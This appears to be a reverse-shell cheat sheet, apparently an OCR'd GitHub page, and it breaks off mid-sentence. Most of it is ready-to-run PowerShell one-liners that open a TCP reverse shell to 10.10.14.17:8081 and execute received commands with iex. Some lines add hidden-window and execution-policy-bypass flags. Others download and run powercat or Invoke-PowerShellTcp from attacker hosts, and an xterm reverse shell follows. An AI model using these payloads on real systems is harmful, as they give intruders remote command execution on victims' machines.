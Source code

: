 # powershell

    $client = New-Object System.Net.Sockets.TCPClient("10.10.14.17",8081);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    
    # ESCAPED
    $client = New-Object System.Net.Sockets.TCPClient(\"10.10.14.17\",8081);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    
    
    powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.14.17",8081);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

    powershell -ExecutionPolicy Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.17/powercat.ps1');powercat -c 10.10.14.17 -p 8081 -e powershell"
    
```
powershell -ExecutionPolicy Bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.10/invoke-powershell-tcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.134 -Port 443
```

```
powershell -ExecutionPolicy Bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.10/invoke-powershell-tcp.ps1');
```


    $client = New-Object System.Net.Sockets.TCPClient('10.10.14.17',8081);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

# xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

    xterm -display 10.0.0.1:1
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
